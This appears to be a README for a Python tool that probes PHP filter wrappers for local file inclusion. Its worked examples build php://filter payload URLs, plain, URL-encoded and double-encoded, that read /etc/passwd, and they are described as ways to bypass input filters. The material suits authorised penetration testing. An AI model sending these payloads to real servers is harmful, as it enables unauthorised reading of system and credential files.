 #PHP Filter Testing Program Guide

## Overview

This Python program tests PHP filter wrappers to read local files on a web server. It allows you to select different filters, encoding types, and files to test.

## Installation

Install required packages:

```
pip install requests colorama
```

## Usage

Run program:

```
python PHP_Filter_Test.py
```

You will be prompted to enter:

- Target URL 
- File to read
- Filter type
- Specific filter
- URL encoding type

The program makes a request using your selections and prints the response.

## Examples

**Read /etc/passwd with normal base64 filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 1 (Normal)

Select filter to test: 4 (convert.base64-decode) 

Select URL encoding type: 1 (Normal)

Testing: http://example.com/php://filter/convert.base64-decode/resource=/etc/passwd
```

This tests the base64-decode filter on the /etc/passwd file without any URL encoding.

**Read /etc/passwd with encoded base64 filter**


```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd

Select filter type: 2 (Encoded)

Select filter to test: 6 (convert.base64-encode|convert.base64-decode)

Select URL encoding type: 2 (Encoded) 

Testing: http://example.com/php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d%2fetc%2fpasswd
```

This tests the base64 filter with URL encoding to bypass filters.

**Read /etc/passwd with double encoded zlib filter**

```
Enter the URL to test: http://example.com
Enter the file name to test: /etc/passwd  

Select filter type: 3 (Double Encoded)

Select filter to test: 9 (zlib.deflate/convert.base64-encode)

Select URL encoding type: 3 (Double Encoded)

Testing: http://example.com/php%253A%252F%252Ffilter%252Fzlib%252Edeflate%252Fconvert%252Ebase64-encode%252Fresource%253D%252Fetc%252Fpasswd
```

This shows how to double encode the filter and URL to bypass restrictions.

This demonstrates how you can test different filter wrappers to identify file read vulnerabilities.
